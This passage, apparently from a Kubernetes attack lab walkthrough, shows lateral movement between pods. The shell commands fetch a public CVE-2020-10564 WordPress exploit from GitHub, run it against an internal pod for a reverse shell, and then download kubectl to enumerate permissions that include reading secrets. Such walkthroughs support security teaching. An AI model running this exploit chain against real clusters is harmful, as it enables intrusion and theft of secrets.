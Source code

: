 ***If you want to control traffic flow at the IP address or port level (OSI layer 3 or 4), then you might consider using Kubernetes NetworkPolicies for particular applications in your cluster. NetworkPolicies are an application-centric construct which allow you to specify how a pod is allowed to communicate with various network "entities" (we use the word "entity" here to avoid overloading the more common terms such as "endpoints" and "services", which have specific Kubernetes connotations) over the network.***


## Use case 6 : Lateral movement

The wordpress app in the `dev` namespace is also vulnerable. So we can get a reverse shell on it from the already compromised pod. 

```bash
root@wordpress-66cd544579-cv29k:~# curl https://raw.githubusercontent.com/beerpwn/CVE/master/WP-File-Upload_disclosure_report/CVE-2020-10564_exploit.py > exploit.py
root@wordpress-66cd544579-cv29k:~# apt install python
root@wordpress-66cd544579-cv29k:~# apt install python-pip
root@wordpress-66cd544579-cv29k:~# pip install urlparse2
root@wordpress-66cd544579-cv29k:~# pip install requests
root@wordpress-66cd544579-cv29k:~# python exploit.py http://10.42.1.34/2021/09/13/hack-me-if-you-can/ / 
```
Now we have a reverse shell on the pod in the dev namespace, let's chech our permission : 

```bash
root@wordpress-9bb79bb48-fw68x:~# curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl
root@wordpress-9bb79bb48-fw68x:~# chmod +x kubectl
root@wordpress-9bb79bb48-fw68x:~# ls
kubectl
root@wordpress-9bb79bb48-fw68x:~# ./kubectl auth can-i --list
Resources                                                      Non-Resource URLs   Resource Names   Verbs
tokenreviews.authentication.k8s.io                             []                  []               [create]
selfsubjectaccessreviews.authorization.k8s.io                  []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io                   []                  []               [create]
subjectaccessreviews.authorization.k8s.io                      []                  []               [create]
configmaps                                                     []                  []               [get list watch]
endpoints                                                      []                  []               [get list watch]
limitranges                                                    []                  []               [get list watch]
namespaces                                                     []                  []               [get list watch]
nodes                                                          []                  []               [get list watch]
persistentvolumeclaims                                         []                  []               [get list watch]
persistentvolumes                                              []                  []               [get list watch]
pods                                                           []                  []               [get list watch]
replicationcontrollers                                         []                  []               [get list watch]
resourcequotas                                                 []                  []               [get list watch]
secrets                                                        []                  []               [get list watch]
```